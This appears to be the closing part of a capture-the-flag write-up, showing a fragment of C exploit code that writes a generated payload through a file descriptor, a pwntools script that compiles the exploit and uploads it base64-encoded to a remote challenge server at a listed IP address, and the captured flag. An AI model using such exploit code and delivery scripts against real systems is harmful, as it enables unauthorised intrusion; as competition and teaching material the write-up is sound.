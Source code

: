```c

  lseek(fd, x, SEEK_SET);

  char* payload = generate_payload();
  write(fd, payload, 0x1000);

}
```

We also used a simple python file to upload the binary file.

send.py
```py
#!/usr/bin/env python3
from pwn import *
import base64, os

# Compile
os.system('musl-gcc exploit.c -o exploit -static')

# B64 encode
base64_code = ''
with open('./exploit', 'rb') as code:
    raw_code = code.read()
    base64_code = base64.b64encode(raw_code)

# Send exploit
io = remote('47.242.149.197',7600)
io.recvuntil(b'Your Binary(base64):')
io.sendline(base64_code)

io.interactive()
```

FLAG: `rwctf{s0-many-vu1n_but-only-few-exploitable}`

- 0xTen
- Caue
- Esoj
- R3tr0